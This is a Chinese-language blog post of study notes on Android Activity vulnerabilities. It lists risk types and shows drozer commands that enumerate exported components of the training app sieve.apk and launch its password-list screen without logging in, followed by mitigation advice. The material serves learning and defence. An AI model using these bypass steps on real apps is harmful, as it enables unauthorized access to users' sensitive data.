 ```yaml
---
layout: post
title:  "Android: Activity漏洞挖掘学习-序言－Day1"
date:   2024-09-11 12:00:00 +0800
categories: [bugs-dig,android] 
---
```




# 序言

参考文章: 

https://bbs.kanxue.com/thread-269211.htm

[《Android APP漏洞之战系列》](https://github.com/WindXaa/Android-Vulnerability-Mining)

**Activity的漏洞种类**

![image-20210905185725812](https://raw.githubusercontent.com/redqx/redqx.github.io/master/_posts/img/905443_SEK8YFRNTN3AYFB.png)

**Activity安全场景和危害**

Activity的组件导出，一般会导致的问题：Android Browser Intent Scheme URLs的攻击手段
(1) 拒绝服务攻击：通过Intent给Activity传输畸形数据使得程序崩溃从而影响用户体验
(2) 越权攻击：Activity用户界面绕过会造成用户信息窃取、Activity界面被劫持产生欺诈等安全事件
(3) 组件导出导致钓鱼欺诈
(4) 隐式启动intent包含敏感数据



# 越权绕过

**原理介绍**

在Android系统中，Activity默认是不导出的，如果设置了exported = "true" 这样的关键值或者是添加了<intent-filter>这样的属性



```
<activity 
    android:label="@string/title_activity_pwlist" 
    android:name="com.mwr.example.sieve.PWList" 
    android:exported="true" //可能危险的地方
    android:finishOnTaskLaunch="true" 
    android:clearTaskOnLaunch="true" 
    android:excludeFromRecents="true"
/>
```



那么此时Activity是导出的，就会导致越权绕过或者是泄露敏感信息等安全风险。

例如：
(1)一些敏感的界面需要用户输入密码才能查看，如果没有对调用此Activity的组件进行权限验证，就会造成验证的越权问题，导致攻击者不需要密码就可以打开
(2)通过Intent给Activity传输畸形数据使得程序崩溃拒绝服务
(3)对Activity界面进行劫持



样本 sieve.apk ==> com.mwr.example.sieve

附件: 链接: https://pan.baidu.com/s/1uvZZxTMsCQ1sz74FnqFzTg?pwd=feav 提取码: feav

启动 `drozer`, 查询目标应用的攻击面

```
dz> run app.package.attacksurface com.mwr.example.sieve
Attempting to run shell module
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable
```

再具体查询暴露activity的信息

```
dz> run app.activity.info -a  com.mwr.example.sieve
Attempting to run shell module
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null
```

说明我们可以通过强制跳转其他两个界面，来实现越权绕过

其中`com.mwr.example.sieve.MainLoginActivity`是启动的activity

```
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
Attempting to run shell module
```

我们尝试启动sieve.apk的`com.mwr.example.sieve.PWList`

![image-20240912160744454](https://raw.githubusercontent.com/redqx/redqx.github.io/master/_posts/img/image-20240912160744454.png)



说明我们成功的实现了越权绕过,

ps: 我点击save, but显示 can not connect the service.



防护策略：

(1)私有Activity不应被其他应用启动相对是安全的，创建activity时：设置exported属性为false
(2)公开暴露的Activity组件，虽然可以被任意应用启动，创建Activity：设置export属性为true，但谨慎处理接收的Intent，有返回数据不包含敏感信息，不应发送敏感信息，收到返回数据谨慎处理

